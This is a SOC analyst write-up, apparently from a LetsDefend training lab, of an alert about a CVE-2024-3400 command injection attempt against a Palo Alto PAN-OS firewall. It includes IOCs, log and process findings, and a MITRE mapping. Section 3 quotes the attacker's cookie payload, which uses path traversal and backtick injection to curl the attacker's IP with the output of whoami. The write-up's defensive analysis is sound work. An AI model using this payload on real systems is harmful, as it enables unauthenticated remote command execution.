





#  Incident 7 – Palo Alto PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)

**Platform:** LetsDefend.io  
**Incident ID:** 249  
**Rule Name:** SOC274 – Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)  
**Severity:** Critical  
**Type:** Web Attack  
**Status:** Closed – True Positive  

---

## 1. Incident Overview

A **critical SOC274 alert** was triggered due to the detection of an active **command injection exploitation attempt** targeting a **Palo Alto Networks PAN-OS firewall**.  
The activity matches public exploitation patterns for **CVE-2024-3400**, a critical vulnerability allowing **unauthenticated remote command execution** via crafted HTTP requests.

The attack attempted to abuse the **GlobalProtect login endpoint** using malicious cookie injection to execute arbitrary system commands.


---

## 2. Alert Metadata

- **Event ID:** 249  
- **Event Time:** Apr 18, 2024 – 03:09 AM  
- **Date Closed:** Dec 24, 2025 – 09:35 AM  
- **Rule Level:** Security Analyst  
- **Hostname:** PA-Firewall-01  
- **Destination IP:** 172.16.17.139  
- **Source IP:** 144.172.79.92  
- **HTTP Method:** POST  
- **Requested URL:** `/global-protect/login.esp`  
- **Device Action:** Allowed  

### 📸 Screenshot – Alert Details  



---

## 3. Exploitation Attempt Analysis

### Observed Attack Vector
The attacker attempted to exploit PAN-OS by injecting OS commands into the **Cookie header** of an HTTP POST request.

### Malicious Cookie Payload
```
SESSID=../../../../opt/panlogs/tmp/device_telemetry/hour/aaa`curl${IFS}144.172.79.92:4444?user=$(whoami)
```

### Key Observations
- Abuse of unsanitized cookie handling
- Command substitution using backticks
- Remote callback attempt to attacker-controlled IP
- Matches known CVE-2024-3400 exploit patterns


---

## 4. Network & Log Management Analysis

### Log Evidence
- POST request observed before alert trigger
- Destination port: **20077**
- HTTP version: **HTTP/1.1**
- Content-Type: `application/x-www-form-urlencoded`

### Traffic Direction
- **Inbound attack traffic**
- External attacker targeting internal firewall management service

### 📸 Screenshot – Log Management View  



---

## 5. Endpoint & Process Analysis

### Host Analyzed
- **Host:** PA-Firewall-01  
- **IP Address:** 172.16.17.139  

### Observed Processes
| Process | Parent | Command |
|------|------|--------|
| python3 | systemd | /usr/bin/python3 update.py |
| brdagent | sysd | /usr/libexec/brdagent |
| masterd | init | /usr/libexec/masterd |

### Analysis Outcome
- No unauthorized shell spawned
- No persistence mechanisms observed
- Processes aligned with system services post-attempt

### 📸 Screenshot – Process Investigation  



---

## 6. Threat Intelligence Correlation

### Source IP Reputation
- **IP Address:** 144.172.79.92  
- **ASN:** AS14956 (ROUTERHOSTING)  
- **VirusTotal Detection:** 10 / 95 vendors flagged as malicious  

### Reputation Indicators
- Classified as **Malware / Exploit Source**
- Previously associated with active exploitation campaigns

### 📸 Screenshot – VirusTotal IP Analysis  



---

## 7. Malware & File Hash Analysis

### File Hash Observed
```
3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac
```

### VirusTotal File Analysis
- **Detection Ratio:** 36 / 63 vendors  
- **File Type:** Python Script  
- **Threat Labels:**  
  - Exploit.Python.CVE-2024-3400  
  - Trojan.Python.Agent  

### Conclusion
The file hash confirms weaponized exploit tooling targeting PAN-OS devices.

### 📸 Screenshot – VirusTotal File Hash Analysis  


---

## 8. Indicators of Compromise (IOCs)

### IP Addresses
- 144.172.79.92  

### URLs
- `/global-protect/login.esp`

### File Hashes
- 3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac

---

## 9. MITRE ATT&CK Mapping

| Tactic | Technique |
|------|-----------|
| Initial Access | T1190 – Exploit Public-Facing Application |
| Execution | T1059 – Command and Scripting Interpreter |
| Persistence | T1505 – Server-Side Component |
| Defense Evasion | T1036 – Masquerading |

---

## 10. Response & Actions Taken

- Exploitation attempt confirmed  
- Attack validated as **True Positive**  
- Escalated to **Tier 2** for deep analysis  
- Firewall isolated during investigation  
- No successful compromise detected  

---

## 11. Final Analyst Verdict

- **True Positive**  
- Exploitation attempt detected and contained  
- No post-exploitation activity observed  
- SOC detection and response effective  

### 📸 Screenshot – Case Closure  



---

## 12. Analyst Notes

This incident highlights the real-world exploitation of **CVE-2024-3400** shortly after disclosure.  
Exposed firewall management interfaces represent **high-value targets**, and rapid patching combined with behavioral detections is critical to prevent compromise.